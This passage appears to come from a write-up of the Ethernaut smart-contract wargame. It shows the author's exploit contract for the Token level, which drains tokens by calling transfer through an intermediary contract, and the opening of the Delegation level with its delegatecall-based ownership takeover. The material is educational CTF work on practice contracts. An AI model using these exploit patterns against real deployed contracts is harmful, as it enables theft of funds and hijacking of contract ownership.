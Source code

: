 ```solidity
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

My Solution (w/o using overflow):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
}

contract HackToken {
    function hackToken(address _tokenAddr) external {
        // transfer to my address 21000000 tokens from this contract address:
        IToken(_tokenAddr).transfer(0xc85cD8feb12dBFBCA493C8F80b2F93161D0df642, 21000000);
    }
}
```

Useful links:
[Who is msg.sender when calling a contract from a contract](https://ethereum.stackexchange.com/questions/28972/who-is-msg-sender-when-calling-a-contract-from-a-contract)

### Level 6. Delegation

**Goal**: Gain control of someone else’s smart contract.

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/) article for an accurate explanation of how this idea was used to steal 30M USD.

![](https://miro.medium.com/max/1400/1*907YyYjEuAZCeLT9XiOA7A.png)

Given Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}
```
